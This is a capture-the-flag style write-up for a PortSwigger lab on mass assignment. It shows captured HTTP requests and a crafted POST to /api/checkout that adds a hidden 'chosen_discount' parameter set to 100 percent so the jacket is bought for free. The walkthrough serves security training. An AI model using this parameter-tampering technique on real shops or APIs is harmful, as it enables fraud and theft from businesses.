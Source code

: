 ## [Lab-02: Exploiting a mass assignment vulnerability](https://portswigger.net/web-security/api-testing/lab-exploiting-mass-assignment-vulnerability)
To solve the lab, find and exploit a mass assignment vulnerability to buy a **Lightweight l33t Leather Jacket**. You can log in to your own account using the following credentials: `wiener:peter`.
almost identical to 1

```
Required knowledge

To solve this lab, you'll need to know:

- What mass assignment is.
- Why mass assignment may result in hidden parameters.
- How to identify hidden parameters.
- How to exploit mass assignment vulnerabilities.
```


### Sign into the app, and run the Content Discovery tool
this will reveal some of the API routes and give you an idea of how it works, and a clue as to what you need to change
try and purchase the jacket and accumulate the following Get request in your history

</br>

- In **Proxy > HTTP history**, notice both the `GET` and `POST` API requests for `/api/checkout`.

```http
GET /api/checkout HTTP/2
Host: 0afa00be0361459380926d9b009b0096.web-security-academy.net
Cookie: session=EWhGuZzEo1xsMTNf4z8SpLQFV9JtnMKw

```

Response
```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 153

{
  "chosen_discount": {
    "percentage": 0
  },
  "chosen_products": [
    {
      "product_id": "1",
      "name": "Lightweight \"l33t\" Leather Jacket",
      "quantity": 1,
      "item_price": 133700
    }
  ]
}
```
</br>

- the response to the `GET` request contains the same JSON structure as the `POST` request. Observe that the JSON structure in the `GET` response includes a `chosen_discount` parameter, which is not present in the `POST` request.

- Send `POST /api/checkout` request to Repeater, and add the `chosen_discount` parameter to the request. The goal is to get the jacket for free, so edit the json values accordingly

Here is the custom `POST /api/checkout` request
```http
POST /api/checkout HTTP/2
Host: 0afa00be0361459380926d9b009b0096.web-security-academy.net
Cookie: session=EWhGuZzEo1xsMTNf4z8SpLQFV9JtnMKw
Referer: https://0afa00be0361459380926d9b009b0096.web-security-academy.net/cart
Content-Length: 157
Content-Type: application/json

{
  "chosen_discount":{
    "percentage": 100
  },
 
  "chosen_products": [
    { 
      "product_id": "1",
      "quantity": 1
    }
  ]
} 
```

After sending this through, the price should now be successfully updated, and the lab solved
